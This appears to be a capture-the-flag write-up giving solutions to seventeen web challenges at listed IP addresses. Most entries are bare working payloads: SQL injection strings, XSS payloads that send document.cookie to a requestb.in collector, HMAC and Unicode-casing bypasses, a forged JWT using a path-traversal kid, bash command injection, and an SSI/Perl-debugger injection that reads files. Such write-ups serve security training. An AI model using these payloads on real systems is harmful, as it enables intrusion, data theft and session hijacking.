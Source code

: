 # 1. sqli
http://188.166.248.215/

<details>
<summary>Solution</summary>
<code>0||1</code>
</details>

# 2. sqli
http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/

<details>
<summary>Solution</summary>
<code>'or'1</code>
</details>

# 3. sqli
http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/

<details>
<summary>Solution</summary>

<code>'||1-- </code>

</details>

# 4. sqli
http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/

<details>
<summary>Solution</summary>
<code>0-- '||1-- "||1-- </code>
</details>

# 5. xss
http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/

<details>
<summary>Solution</summary>

```
<img src=x onerror='src="http://requestb.in/1bikbhd1?x="+encodeURIComponent(document.cookie)'>
```

</details>



# 6. sqli
http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/

<details>
<summary>Solution</summary>

username: `\`  
password: `||1-- `

</details>


# 7. xss
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/

<details>
<summary>Solution</summary>
<p>

js:
`');}location='http://requestb.in/1bikbhd1?x='+encodeURIComponent(document.cookie);{{'*/'/*`

url:
http://139.59.127.142/39b21eea-6168-431b-81b5-23252749917e/?js=')%3B%7Dlocation%3D'http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fx%3D'%2BencodeURIComponent(document.cookie)%3B%7B%7B'*%2F'%2F*

</p>
</details>

# 8. xss
http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/

<details>
<summary>Hint</summary>
<p>

`?url` query parameter is vulnerable to xss. CSP rules are:  
`Content-Security-Policy:default-src 'none'; script-src 'nonce-disabled';`

</p>
</details>

<details>
<summary>Solution</summary>
<p>

url param:

```
pwn"><script nonce="disabled">location="http://requestb.in/1bikbhd1?y="+encodeURIComponent(document.cookie)</script><p x="
```

http://139.59.127.141/8e11d478-be5d-4f05-a27b-f3bff7b84168/?url=pwn%22%3E%3Cscript%20nonce%3D%22disabled%22%3Elocation%3D%22http%3A%2F%2Frequestb.in%2F1bikbhd1%3Fy%3D%22%2BencodeURIComponent(document.cookie)%3C%2Fscript%3E%3Cp%20x%3D%22

</p>
</details>

# 9. sqli (triple short)
http://139.59.127.144/d25d0cb4-90c3-465d-8733-b50229371377/

<details>
<summary>Solution</summary>
<p>

```
"="'='
```

</p>
</details>


# 10. sqli (12 random short)
http://139.59.127.144/9fc91798-4c0f-4e23-ab10-32e03e77ac95/

<details>
<summary>Solution</summary>
<p>

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||6='||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||5="&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`5=6=0='&&0 union select char(115,117,99,99,101,115,115)from dual where 1||'||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||"&&0 union select char(115,117,99,99,101,115,115) from dual where 1||8`

`0='&&0 union select char(0x73756363,6648691)from dual where 1||'"&&0 union select char(0x73756363,6648691)from dual where 1||"&&0 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)from dual where!'"union select char(0x73756363,6648691)from dual where 1||"=3 union select char(0x73756363,6648691)from dual where 1||0`

`'union select char(0x73756363,6648691)-- '"union select char(0x73756363,6648691)-- "=3 union select char(0x73756363,6648691)-- `

`'union select char(0x73756363,6648691)-- '"union select'success'-- "=3 union select'success'-- `

`'union select char(0x73756363,6648691)#'"union select'success'#"=3 union select'success'#`

`5=6 union select char(0x73756363,6648691)-- '=7 union select'success'-- "=7 union select'success'-- `

`0=3 union select char(0x73756363,6648691)-- 'union select'success'-- "union select'success'-- `

`0=3 union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@ union select char(0x73756363,6648691)#'union select'success'#"union select'success'#`

`@/*'/*"/**/union select'success'#`

```
@#'#"
union select'success'#
```

</p>
</details>

# 11. ruby hmac token 1
http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/

<details>
<summary>Hint</summary>
<p>

There is source leak by forcing some ruby error, for example utf8 decoding error. We need to sign a malformed string, but that's not a problem.

http://139.59.127.145/db55fc7a-c615-449a-b86e-bde4df2ed70c/?data=aaaaaaaaa%FFb%20%20%20%20%20%20%20%20%20GUEST%20%20%20%20%20&hmac=ca9a9653f330c29dc8f797c08d6f23a16e17c2132e993b7981a1ad330723b655

```
  end

  generated_hmac = OpenSSL::HMAC.hexdigest(OpenSSL::Digest.new('sha256'), KEY, params["data"])
  unless params["hmac"] == generated_hmac
    return "go away hacker"
  end

  @first_name, @last_name, @role = params["data"].scan(/.{10}/).map(&:rstrip)

  if @role == "ADMIN"
    content_type :txt
    return File.read("#{__dir__}/../next_challenge_info.txt")
  else
    @title = "User Info"
    erb :index
```

</p>
</details>

<details>
<summary>Solution</summary>
<p>

Post data:  
```
first_name[]=1&first_name[]=2&first_name[]=3&first_name[]=444ADMIN++++++++++++++&first_name[]=5&first_name[]=6&first_name[]=7&first_name[]=8&first_name[]=9&first_name[]=0&last_name=ADMIN
```

</p>
</details>

# 12. ruby hmac token 2
http://139.59.127.146/ffd88992-6cc1-4733-bcb5-39dd5b1603a8/

<details>
<summary>Hint</summary>
<p>
This time there is no source, previous exploit doesn't work. This time they capitalized all the input.
</p>
</details>

<details>
<summary>Solution</summary>
<p>

Assume they cut the length before capitalizing and pad afterwards. Unicode anyone? There are codepoints that expand to
more codepoints when uppercased.

ftp://ftp.unicode.org/Public/UCD/latest/ucd/SpecialCasing.txt

```
first_name=aa%1F%B2%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7%E1%BE%B7&last_name=admin+++++
```

</p>
</details>

# 13. jwt bypass
http://139.59.112.116/dddace4a-d619-4204-bb15-df6c0a24d6de/

https://github.com/jwt/ruby-jwt

<details>
<summary>Solution</summary>
<p>

kid was a local file

```
var kid = "../../../etc/magic";
var alg = "HS256";
var hdr = $@"{{""typ"":""JWT"",""alg"":""{alg}"",""kid"":""{kid}""}}";
var body = $@"{{""user"":""admin""}}";
```

```eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii4uLy4uLy4uL2V0Yy9tYWdpYyJ9.eyJ1c2VyIjoiYWRtaW4ifQ.KHvUjYMwH49GkMBB1FyyHJjX8J1kt79VAYadOpLDlMM```

</p>
</solution>

# 14. sqli and php password check
http://139.59.127.147/e08720e1-df29-46cb-b1c8-83a32e9083df/

<details>
<summary>Solution</summary>
<p>

```
sqli
database leak with usernames and password hashes
crackstation: ripemd160

sql = "' UNION SELECT * FROM (SELECT '{}') c LEFT JOIN (SELECT '{}') a ON 1 LEFT JOIN (SELECT 0) b on 1 #".format(username, ripemd160(password).hex())
print(make_query(sql, password))
```

</p>
</solution>

# 15. bash injection
http://139.59.127.148/ed932765-1a3a-467a-be5b-e11dc1fc542d/

<details>
<summary>Solution</summary>
<p>

```$( pwd | cut -c -9 )$( ls -S -r .. )```

</p>
</solution>

# 16. captcha
http://188.166.183.58/96e5c0bd-7f33-4188-94f0-89b3094bd6af/

captcha madness with no repeating chars

<details>
<summary>Authors solution</summary>
<p>
http://139.59.127.149/e3cb1461-411d-4281-9c62-80b3c5e83cc9/captcha.php?id=q%27+unioN%0AselEct%0BmId(@fLag%0CFrOM%0D5)%23
</p>
</details>


# 17. echo service
http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/

<details>
<summary>Hint</summary>
<p>
By sending an invalid requests it replies with an error page redirecting to `/index.shtml`. What is `shtml`?

With some investigation we found that the service is in Perl: `index.pl`.
Somehow we found out there is a `/next_challenge` file on the filesystem. Don't remember how.

</p>
</details>

<details>
<summary>Solution</summary>
<p>

```
<!--#set var="PERL5OPT" value="-d" --><!--#set var="PERL5DB" value="BEGIN { require 'perl5db.pl' } END { print `cat /ne*` }" --><!--#include virtual="index.pl" onerror="index.pl"-->
```

http://139.59.127.150/1d0f2acf-a96b-4e9c-a70a-92ba42f70bc2/?name=%3C!--%23set%20var=%22PERL5OPT%22%20value=%22-d%22%20--%3E%3C!--%23set%20var=%22PERL5DB%22%20value=%22BEGIN%20{%20require%20%27perl5db.pl%27%20}%20END%20{%20print%20`cat%20/ne*`%20}%22%20--%3E%3C!--%23include%20virtual=%22index.pl%22%20onerror=%22index.pl%22--%3E

</p>
</details>
